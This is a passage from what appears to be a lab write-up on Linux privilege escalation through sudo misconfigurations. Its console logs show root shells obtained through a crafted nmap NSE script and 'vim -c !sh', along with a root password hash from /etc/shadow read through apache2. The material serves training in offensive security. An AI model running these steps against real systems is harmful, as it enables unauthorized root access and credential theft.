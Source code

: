 ```console
sh-4.1# exit
exit
TCM@debian:~$ echo "os.execute('/bin/sh')" > shell.nse && sudo nmap -script=shell.nse

Starting Nmap 5.00 ( http://nmap.org ) at 2022-04-18 08:16 EDT
sh-4.1# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.1# exit
exit
NSE: failed to initialize the script engine:
/usr/share/nmap/nse_main.lua:228: ./shell.nse is missing required field: 'categories'
stack traceback:
	[C]: in function 'error'
	/usr/share/nmap/nse_main.lua:228: in function 'new'
	/usr/share/nmap/nse_main.lua:392: in function 'get_chosen_scripts'
	/usr/share/nmap/nse_main.lua:594: in main chunk
	[C]: ?

QUITTING!
TCM@debian:~$ sudo vim -c '!sh'

sh-4.1# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.1#
```

No Answer

## TASK 9 : Privilege Escalation - Sudo (Abusing Intended Functionality)
###  Click 'Completed' once you have successfully elevated the machine  

```console
TCM@debian:~$ sudo -l
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD

User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
TCM@debian:~$ sudo apache2 -f /etc/shadow
Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration


```
{: .nolineno }
